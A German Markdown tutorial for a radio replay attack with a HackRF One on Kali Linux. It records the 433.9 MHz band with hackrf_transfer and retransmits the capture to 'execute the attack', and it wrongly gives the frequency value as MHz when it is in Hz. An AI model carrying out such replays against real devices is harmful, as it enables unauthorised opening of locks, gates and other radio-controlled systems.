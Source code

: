# "Replay Attack" mit einem HackRF one


`Betriebssystem des PCs: Kali Linux (in einer virtuellen Maschine)`

`Der HackRF one ist über USB an den PC angeschlossen.`

`Diese Anleitung wurde am 10.8.2023 verfasst.`


> [Link zum HackRF](https://greatscottgadgets.com/hackrf/one/)


----------------------------------------------------------------------------------------------------------------


- zusätzliche Information:
	- Es wird nur die Komandozeile benötigt.


## Hinweis zum PortaPack:
`Der Hackrf muss entweder mit der originalen Software (ohne Zubehör) betrieben werden, oder sofern ein mobiles "porta-pack" vorliegt,
in den "hackrf-mode" geschaltet werden, um diesen mit dem PC nutzen zu können !`

## WICHTIG
`Es muss eine Antenne am HackRF angeschlossen sein !`


----------------------------------------------------------------------------------------------------------------


1. Installation von [GQRX](https://www.gqrx.dk/) (SDR-Software)

```
$ sudo apt install gqrx-sdr
```


----------------------------------------------------------------------------------------------------------------


2. optionaler Schritt

Um Informationen über den angeschlossenen HackRF zu erhalten, den Befehl ausführen:

```
$ hackrf_info
```


----------------------------------------------------------------------------------------------------------------


3. Aufzeichnen der angegebenen Frequenz, um diese zu einem späteren Zeitpunkt über den HackRF zu senden:

```
$ hackrf_transfer -r hier-der-dateiname.raw -f 433900000 -l 20 -g 20
```

a) `.raw` ist das Dateiformat der Aufnahme.

b) Die Zahl `433900000` ist die Frequenz in Mhz die aufgezeichnet wird.

c) Der Parameter `-r` beschreibt den Dateinamen der `.raw` Datei.

d) Die Parameter `-l` und `-g` geben die Werte der Signalverstärkung an.


----------------------------------------------------------------------------------------------------------------


4. Die Aufzeichnung der angegebenen Frequenz wird über diesen Befehl gesendet, um die "Attacke" auszuführen:

```
$ hackrf_transfer -t hier-der-dateiname.raw -f 433900000 -x 40
```

a) `.raw` ist das Dateiformat der Aufnahme.

b) Die Zahl `433900000` ist die Frequenz in Mhz die aufgezeichnet wird.

c) Der Parameter `-t` beschreibt den Dateinamen der `.raw` Datei, die gesendet werden soll.

d) Der Parameter `-x` gibt die Werte der Signalverstärkung an.



`Nun wurde die aufgenommene Frequenz gesendet und der "Replay-Attack" wurde ausgeführt !`




----------------------------------------------------------------------------------------------------------------
